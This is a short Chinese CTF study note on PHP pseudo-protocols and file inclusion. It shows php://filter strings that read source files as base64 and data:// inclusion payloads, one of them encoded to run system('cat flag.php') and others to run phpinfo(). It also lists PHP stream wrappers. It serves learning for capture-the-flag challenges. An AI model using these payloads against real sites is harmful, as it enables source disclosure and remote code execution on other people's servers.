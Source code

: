 # 15.php伪协议/文件包含

## file函数

![img](./././././././././D:\MarkDown\CTF\CTFNotes\Perfect317\WEB\images\20210110135324804-1721131032936.png)

1.是格式
2.是可选参数，有read和write，字面意思就是读和写
3.是过滤器。主要有四种：字符串过滤器，转换过滤器，压缩过滤器，加密过滤器。filter里可以用一或多个过滤器（中间用|隔开），这也为解题提供了多种方法，灵活运用过滤器是解题的关键。这里的过滤器是把文件flag.php里的代码转换（convert）为base64编码（encode）
4.是必选参数，后面写你要处理的文件名

php://filter/read=convert.base64-encode/resource=index.php

php://filter/convert.base64-encode/resource=index.php

在绕过一些WAF时有用



php://filter/resource=index.php



## data命令

text=data://text:text/plain,内容

```
？file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=

PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs ===> <?php system('cat flag.php');

```

读取phpinfo()

```
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b

data://text/plain,<?php%20phpinfo();?>
```

file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
